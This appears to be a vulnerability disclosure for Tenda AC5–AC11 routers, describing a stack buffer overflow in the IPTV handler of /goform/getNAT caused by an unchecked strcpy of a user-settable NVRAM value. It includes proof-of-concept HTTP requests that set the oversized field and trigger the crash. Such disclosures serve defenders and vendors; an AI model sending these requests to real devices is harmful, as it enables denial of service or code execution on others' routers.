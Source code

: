 # Tenda Router  Vulnerability

This vulnerability exists in  module `IPTV` of `/goform/getNAT` and affects multiple devices of the Tenda Router. Equipment models include AC5, AC6, AC7, AC8, AC10, AC11. It affects several firmware versions, including the latest version number published on the official website. And it is RTOS system.

[https://www.tenda.com.cn/searchdown/AC.html](https://www.tenda.com.cn/searchdown/AC.html)

## Vulnerability description

（The pseudocode for the example is the last version of AC6）

There is a stack buffer overflow vulnerability in the `SUB_8007D1EC` function.(page  /goform/getNAT)

![pic/Untitled.png](pic/Untitled.png)

In this function, when `vlan_zone` is equal to 2, it uses `nvram_get((int)"vlan_select");` to gets an NVRAM variable, which is then placed in a `V20` variable.  After that ,it will use `Strcpy (v33, v20);`  to put the V20 on the V33 without any security checks.

The  `vlan_select`  NVRAM variable can be controlled in the `sub_8007D508` function.


![pic/Untitled1.png](pic/Untitled%201.png)

You can see that it's assigned by v11.


![pic/Untitled2.png](pic/Untitled%202.png)

Initially `v11` is what we inputed, so the `vlan_select` NVRAM variable becomes manageable.

![pic/Untitled3.png](pic/Untitled%203.png)

It is also  easy to get the program to `LABEL_21` by simply setting `IPTVEn` to true.

Thus, by first setting the `vlan_select` on the page `/goform/setNAT` and then requesting the page `/goform/getNAT`, an attacker can easily perform a denial-of-service attack or remote code execution using crafted overflow data.

## POC

```
POST /goform/setNAT HTTP/1.1
Host: 192.168.0.1
Content-Length: 59
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=IPTV&IPTVEn=true&VLANArea=2&VLANID=4&VLANSelect=aaaaaaaa
```

```
GET /goform/getNAT?random=0.7312766635668926&modules=IPTV HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Verify

Vulnerability demo

![pic/Untitled4.png](pic/Untitled%204.png)

![pic/Untitled5.png](pic/Untitled%205.png)

If the number of characters were longer, it would be enough to overflow.